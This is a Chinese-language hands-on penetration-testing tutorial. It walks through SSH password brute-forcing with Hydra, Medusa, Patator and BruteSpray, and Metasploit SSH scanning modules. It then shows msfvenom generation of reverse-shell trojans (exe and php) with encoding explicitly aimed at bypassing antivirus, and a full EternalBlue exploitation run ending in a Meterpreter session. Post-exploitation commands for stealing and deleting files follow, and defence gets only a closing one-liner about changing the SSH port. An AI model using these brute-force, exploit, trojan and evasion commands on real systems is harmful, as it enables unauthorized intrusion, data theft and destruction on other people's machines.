

# Hydra


打开乌班图，查看ip

```sh
ip a
192.168.83.131

kali使用ssh远程连接 测试
ssh liujiang@192.168.83.131  或者 ssh 192.168.83.131

如果连接受限,在Ubuntu上安装ssh服务
sudo apt install openssh-server

ssh liujiang@192.168.83.131
输入密码-> 成功
exit 退出 


下一步我们使用Hydra 破解密码
```

在kali上写一个密码字典文件,pass.txt

```sh
admin
123456
123
tom
1132423434
root
8080808
linux
```

在创建一个用户名字典 user.txt

```sh
admin
root
liujiang
tom
kali
tb
ubadf
madfasdf
uqwrul
qwert
```


```sh
hydra -l liujiang -P pass.txt 192.168.83.131 ssh
已知用户名 使用 密码字典 破解账户 得到结果
```


```sh
hydra -L user.txt -P pass.txt 192.168.83.131 ssh
-L  是使用用户字典 

```


```sh
hydra -L user.txt -P pass.txt -M hostlist.txt ssh
-M 在 ip字典里找
```


```sh
hydra -L user.txt -P pass.txt -M hostlist.txt ssh -o hydra.txt
输入到文件中
```

# Medusa


```sh
medusa -M ssh -u liujiang -P pass.txt -h 192.168.83.131
```


```sh
medusa -M ssh -u liujiang -P pass.txt -h 192.168.83.131 -t 10
指定10个线程 ，加快速度


medusa -M ssh -u liujiang -P pass.txt -h 192.168.83.131 -O ssh.txt
输出到文件
```

# Pataor

```sh
patator -h
```


```sh
patator ssh_login host=192.168.83.131 user=liujiang password=FILE0 0=pass.txt
```


```sh
patator ssh_login host=192.168.83.131 user=FILE1 1=user.txt password=FILE0 0=pass.txt
```

# BrutesPray


```sh
-f FILE, --file FILE 参数后跟一个文件名, 解析nmap输出的GNMAP或者XML文件
-o OUTPUT, --output OUTPUT 包含成功尝试的目录
-s SERVICE, --service SERVICE 参数后跟一个服务名, 指定要攻击的服务
-t THREADS, --threads THREADS 参数后跟一数值,指定medusa线程数
-T HOSTS, --hosts HOSTS 参数后跟一数值,指定同时测试的主机数
-U USERLIST, --userlist USERLIST 参数后跟用户字典文件
-P PASSLIST, --passlist PASSLIST 参数后跟密码字典文件
-u USERNAME, --username USERNAME 参数后跟用户名,指定一个用户名进行爆破
-p PASSWORD, --password PASSWORD 参数后跟密码,指定一个密码进行爆破
-c, --continuous 成功之后继续爆破
-i, --interactive 交互模式
```

kali端安装

```sh
sudo apt-get install brutespray
#如果报错，先升级kali
apt-get update
```


```sh
nmap -A -sV -p22 192.168.83.0/24 -oX 22.xml
之后查看
cat 22.html
```

配合medusa使用

```sh
brutespray --file 22.xml -U user.txt -P pass.txt --threads 5 --hosts 5
#--hosts HOSTS 参数后跟一数值,指定同时测试的主机数


brutespray --file 22.xml -U user.txt -P pass.txt --t 5 -c
```


```sh
#可以查看成功的文件，先切换root用户   sudo su liujaing
sudo su
find / -name "*brutespray*"

#/home/liujiang/brutespray-output
cd /home/liujiang/brutespray-output
#22-ssh-success.txt
```


# Metasploit

Metasploit项目是一个旨在提供安全漏洞信息计算机安全项目，可以协助安全工程师进行渗透测试（penetration testing）及入侵检测系统签名开发。

Metasploit项目最为知名的子项目是开源的Metasploit框架，一套针对远程主机进行开发和执行“exploit代码”的工具。其他重要的子项目包括Opcode数据库、shellcode文件、安全研究等内容。

Metasploit项目知名的功能还包括反取证与规避工具，其中的某些工具已经内置在Metasploit Framework里面。

### 一、使用Metasploit框架的基本步骤

1. 选择并配置一个攻击代码(exploit, 利用漏洞来进入目标系统的代码）；
2. 检查目标系统是否会被此代码影响（可选）；
3. 选择并配置一个有效负载 (payload, 在成功进入后在目标系统上执行的代码；例如，一个远端壳层或一个VNC服务器）；
4. 选择编码方式，使入侵预防系统，忽略已被编码的有效负载；
5. 执行攻击代码。

exploit：漏洞利用程序，攻击目标系统的程序。

payload：目标系统被exploit攻击成功，进入系统后需要执行的代码。(例如：远程控制目标系统//让目标系统蓝屏等等。。。

### 二、msfvenom工具

为了开始使用 msfvenom，可以首先浏览一下它所支持的命令参数：

```c
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads # 指定特定的 Payload，如果被设置为 - ，那么从标准输入流中读取
        --payload-options            List the payload's standard options # 列出指定 Payload 的标准可选配置项
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all # 列出所有可用的项目，其中值可以被设置为 payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload # 指定 nop 在 payload 中的数量（译者注：类似堆喷射中通过 nop 滑动到 payload）
    -f, --format        <format>     Output format (use --help-formats for a list) # 指定 Payload 的输出格式
        --help-formats               List available formats # 列出所有可用的输出格式
    -e, --encoder       <encoder>    The encoder to use # 指定使用的 Encoder
    -a, --arch          <arch>       The architecture to use # 指定目标系统架构
        --platform      <platform>   The platform of the payload # 指定目标系统平台
        --help-platforms             List available platforms # 列出可用的平台
    -s, --space         <length>     The maximum size of the resulting payload # 设置未经编码的 Payload 的最大长度
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value) # 编码后的 Payload 的最大长度
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff' # 设置需要在 Payload 中避免出现的字符
    -i, --iterations    <count>      The number of times to encode the payload # 设置 Payload 的编码次数
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include # 指定包含一个额外的win32 shellcode文件
    -x, --template      <path>       Specify a custom executable file to use as a template # 指定一个特定的可执行文件作为模板
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread # 保护模板程序的功能，注入的payload作为一个新的进程运行
    -o, --out           <path>       Save the payload # 保存 Payload 到文件
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats # 指定一个变量名
（译者注：当添加 -f 参数的时候，例如 -f python，那么输出为 python 代码， payload 会被按行格式化为 python 代码，追加到一个 python 变量中，这个参数即为指定 python 变量的变量名）
        --smallest                   Generate the smallest possible payload # 尽可能生成最短的 Payload
    -h, --help                       Show this message # 帮助

```

登陆控制台

```sh
msfconsole
```


搜索模块

```sh
search ssh


auxiliary/scanner/ssh/ssh_login   #暴力破解
auxiliary/scanner/ssh/ssh_version #版本探测
auxiliary/scanner/ssh/ssh_enumusers  #用户枚举

#使用
use auxiliary/scanner/ssh/ssh_enumusers
#查看设置参数
show options
set rhost 192.168.83.0/24
set threads 5
set USER_FILE /home/liujiang/user.txt
#端口号默认22  如要更改在设置，设置完后
show options
run
#他会从0开始每个ip开始枚举用户名，时间关系，我们直接让他扫描131
set rhost 192.168.83.131
run

#测试版本，控制台直接输入
use auxiliary/scanner/ssh/ssh_version 
show options
set rhost 192.168.83.131
run

#暴力破解
use auxiliary/scanner/ssh/ssh_login 
show options
set rhost 192.168.83.131
set USER_FILE /home/liujiang/user.txt
set pass_file /home/liujiang/pass.txt
run
```


#### 1、生成木马后门

```ruby
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.226.129 LPORT=4444 -f exe > shell.exe

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.226.129 LPORT=4444 -f raw > shell.php

```

- msfvenom 生成木马后门的工具
- -p 指定payload类型
- LHOST 控制端IP
- LPORT 控制端端口
- -f 指定文件格式

该程序发送给目标主机运行

#### 2、对 Payload 进行编码

默认情况下，当你使用 -b 选项（badchar 选项）时，编码功能将自动启动。 在其他情况下，您必须使用-e选项来开启 Payload 编码功能，如下所示：

```c
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw > shell.php

```

使用 -l 参数可以列出所有可用的编码器

```c
msfvenom -l encoders

```


你也可以通过添加 -i 参数来将一个 Payload 编码多次，有时候多次编码可以绕过防病毒软件的检测。

```c
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3

```

避免使用某些字符
例如某些情况下 Payload 中是不可以出现 \x00 字符的

-b 参数被设置的时候，它的值中描述的字符将会被避免出现在 Payload 中
当这个参数被添加的时候，msfvenom 将会自动寻找合适的编码器来编码 Payload

```c
msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw > shell.php

```

#### 3、漏洞利用

```c
use exploit/multi/handler  使用漏洞模块
show info                  查看配置信息
set payload <payload name> 设置payload
set LHOST <local IP>       设置主机IP
set LPORT <local PORT>     设置监听端口
run/exploit                启动

```

如果目标主机存在我们使用的漏洞(exploit/multi/handler)，服务启动后等待目标主机执行我们生成的exe程序后会自动连接到本机

### 三、漏洞攻击流程

#### 1、搜索攻击模块

```
exploit/multi/handler
```


#### 2、进入模块

```
use exploit/multi/handler
```


#### 3、查看模块所需参数

```
show options
```


#### 4、设置配置参数

```
set LHOST 192.168.226.129
```



#### 5、查询该模块下的payload

```
show payloads
```


#### 6、设置payload

```
set payload windows/meterpreter/reverse_tcp
```


#### 7、启动服务

```
run/exploit
```


### 四、永恒之蓝

永恒之蓝：MS17-010

```c
msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp（未配置有效负载，默认为windows/x64/MeterMeter/reverse\u-tcp）

msf5 exploit(windows/smb/ms17_010_eternalblue) > show options   查看配置参数

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.226.129  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > show info  查看模块信息

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2017-03-14

Provided by:
  Sean Dillon <sean.dillon@risksense.com>
  Dylan Davis <dylan.davis@risksense.com>
  Equation Group
  Shadow Brokers
  thelightcosine

Available targets:
  Id  Name
  --  ----
  0   Windows 7 and Server 2008 R2 (x64) All Service Packs

Check supported:
  Yes

Basic options:
  Name           Current Setting  Required  Description
  ----           ---------------  --------  -----------
  RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT          445              yes       The target port (TCP)
  SMBDomain      .                no        (Optional) The Windows domain to use for authentication
  SMBPass                         no        (Optional) The password for the specified username
  SMBUser                         no        (Optional) The username to authenticate as
  VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
  VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload information:
  Space: 2000

Description:
  This module is a port of the Equation Group ETERNALBLUE exploit, 
  part of the FuzzBunch toolkit released by Shadow Brokers. There is a 
  buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is 
  calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error 
  where a DWORD is subtracted into a WORD. The kernel pool is groomed 
  so that overflow is well laid-out to overwrite an SMBv1 buffer. 
  Actual RIP hijack is later completed in 
  srvnet!SrvNetWskReceiveComplete. This exploit, like the original may 
  not trigger 100% of the time, and should be run continuously until 
  triggered. It seems like the pool will get hot streaks and need a 
  cool down period before the shells rain in again. The module will 
  attempt to use Anonymous login, by default, to authenticate to 
  perform the exploit. If the user supplies credentials in the 
  SMBUser, SMBPass, and SMBDomain options it will use those instead. 
  On some systems, this module may cause system instability and 
  crashes, such as a BSOD or a reboot. This may be more likely with 
  some payloads.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://cvedetails.com/cve/CVE-2017-0143/
  https://cvedetails.com/cve/CVE-2017-0144/
  https://cvedetails.com/cve/CVE-2017-0145/
  https://cvedetails.com/cve/CVE-2017-0146/
  https://cvedetails.com/cve/CVE-2017-0147/
  https://cvedetails.com/cve/CVE-2017-0148/
  https://github.com/RiskSense-Ops/MS17-010

Also known as:
  ETERNALBLUE

msf5 exploit(windows/smb/ms17_010_eternalblue) > check  无损检查目标主机是否存在该漏洞
[-] Check failed: Msf::OptionValidateError One or more options failed to validate: RHOSTS.

msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.226.129  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.226.130
RHOSTS => 192.168.226.130

msf5 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 192.168.226.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.226.130:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.226.130:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.226.130:445 - The target is vulnerable.

msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit      运行
                                                                                                                         
[*] Started reverse TCP handler on 192.168.226.129:4444                                                                       
[*] 192.168.226.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check                                                         
[+] 192.168.226.130:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)      
[*] 192.168.226.130:445   - Scanned 1 of 1 hosts (100% complete)                                                                                   
[*] 192.168.226.130:445 - Connecting to target for exploitation.
[+] 192.168.226.130:445 - Connection established for exploitation.
[+] 192.168.226.130:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.226.130:445 - CORE raw buffer dump (53 bytes)
[*] 192.168.226.130:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.226.130:445 - 0x00000010  30 30 38 20 52 32 20 44 61 74 61 63 65 6e 74 65  008 R2 Datacente
[*] 192.168.226.130:445 - 0x00000020  72 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  r 7601 Service P
[*] 192.168.226.130:445 - 0x00000030  61 63 6b 20 31                                   ack 1           
[+] 192.168.226.130:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.226.130:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.226.130:445 - Sending all but last fragment of exploit packet
[*] 192.168.226.130:445 - Starting non-paged pool grooming
[+] 192.168.226.130:445 - Sending SMBv2 buffers
[+] 192.168.226.130:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.226.130:445 - Sending final SMBv2 buffers.
[*] 192.168.226.130:445 - Sending last fragment of exploit packet!
[*] 192.168.226.130:445 - Receiving response from exploit packet
[+] 192.168.226.130:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.226.130:445 - Sending egg to corrupted connection.
[*] 192.168.226.130:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 192.168.226.130
[*] Meterpreter session 1 opened (192.168.226.129:4444 -> 192.168.226.130:49238) at 2020-09-28 15:01:04 +0800
[+] 192.168.226.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.226.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.226.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 

```

### 五、meterpreter 会话管理

你控制了别人，你要做什么？？？

基本命令

```c
1.background：将meterpreter终端隐藏在后台（快捷键ctrl+z）
 
2.sessions：查看已经成功获得的会话，如果想继续与某会话交互，可以使用sessions -i 命令.
 
3.quit：直接关闭当前的meterpreter会话，返回MSF终端.
 
4.shell：获取目标系统的控制台shell.
 
5.irb：在meterpreter会话与ruby终端交互.

```

文件系统命令

```c
1.cat：查看文件内容.
 
2.getwd：获得目标机器上当前的工作目录，getlwd，这个命令可以获得当前系统的工作目录.
 
3.upload：可以上传文件或文件夹到目标机器上;upload 要上传的文件 C:\Users\buzz\Desktop
 
4.download：从目标机器上下载文件或文件夹，注意windows路径要用双斜杠进行转义. download C:\\test.txt /root/home/test
 
5. edit：调用vi编辑器，对目标机器上的文件进行编辑;edit c:\\windows\\system32\\drivers\\etc\\hosts
 
6. search：可通过search -h查看帮助信息,参数-d指定搜索的起始目录或驱动，如果为空，将进行全盘搜索；参数-f指定搜索的文件或部分文件名，支持星号(*)匹配；参数-r递归搜索子目录.
search -d c:\\windows -f *.txt
 
7.rm：删除目标机器的文件.
 
8.rmdir /s/q c:\\test：进入shell后使用此命令可以删除目录下的所有文件和文件夹，/s表示所有子目录和文件/q表示安静模式，不显示yes or no.

```

网络命令

```c
1.ipconfig：查看目标机器网络接口信息
 
2.portfwd：它是meterpreter自带的端口转发器，用于把目标机器的端口转发到本地端口；假设目标机开放了3389端口，使用如下命令将其转发到本地3456端口：portfwd add -l 3456 -p 3389 -r 192.168.88.110
 
3.rdesktop -u 用户名 -p 密码 ip:端口  连接开启远程桌面的windows系统.
 
4.route：显示目标机器的路由信息.

```

### 六、免杀

```c
1、修改文件md5
	- 添加无效数据(了解Pe结构)
	- 修改资源表
	- 修改字符串
2、修改指令(代码)
3、修改执行流程
4、修改源码
1234567
```

### 七、木马混淆

```sh
msfvenom -l encoders   查看编码器
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=4444 -e x86/shikata_ga_nai -f exe > shell.exe
```

# 防暴力破解防御


```sh
#修改port
vi /etc/ssh/sshd_config
```


